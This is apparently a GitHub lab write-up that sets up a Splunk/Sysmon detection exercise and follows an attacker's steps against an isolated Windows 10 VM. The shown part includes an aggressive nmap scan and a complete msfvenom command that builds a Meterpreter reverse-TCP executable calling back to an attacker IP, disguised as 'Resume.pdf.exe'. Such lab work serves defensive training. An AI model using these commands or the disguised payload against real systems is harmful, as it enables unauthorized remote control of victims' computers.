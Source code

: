 ## Preparation

Before conducting the test, the `Windows 10` virtual machine was preconfigured with `Splunk Enterprise` and `Sysmon` installed, along with the `Sysmon Add-on` for Splunk to enable proper event parsing and visualization. Both the Windows and Kali Linux virtual machines were connected to an `internal network` to isolate the environment. For the purpose of the test, `Windows Defender`, `Microsoft Security` features, and the system `firewall` were temporarily disabled to allow full visibility into attack behavior and network activity.

---

## 👣 STEPS THE `ATTACKER` MADE

### Step 1: Aggressive Network Reconnaissance

The attacker used the command `nmap -A -Pn 192.168.20.10` to perform an `aggressive scan` against the host at IP address `192.168.20.10`.

```bash
nmap -A -Pn 192.168.20.10
```
<img width="626" height="248" alt="Lab 203" src="https://github.com/user-attachments/assets/49ff2b97-51ae-4a25-a16c-247070356a3a" /></br>

Based on these results, the attacker identifies that several critical ports are open on the target system, including `135/tcp (RPC)`, `139/tcp (NetBIOS Session Service)`, `445/tcp (Microsoft-DS/SMB)`, and `3389/tcp (Remote Desktop Protocol - RDP)`. These open ports provide potential attack vectors, as they correspond to services that, if improperly secured, can be exploited for unauthorized access, information gathering, or lateral movement within the network.

---

### Step 2: Generate a Malicious Reverse TCP Payload for Remote Access

```bash
msfvenom -l payloads
```
The command `msfvenom -l payloads` lists all available payload options that can be generated using the Metasploit Framework’s msfvenom tool.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.20 lport=4444 -f exe -o Resume.pdf.exe
```
The attacker uses `msfvenom` to generate a 64-bit Windows executable payload (`Resume.pdf.exe`) that, when run on the target system, initiates a reverse TCP connection back to the attacker’s machine at `IP 192.168.20.20` on `port 4444`, allowing remote control via a `Meterpreter` session.

```bash
ls
```

```bash
file Resume.pdf.exe
```
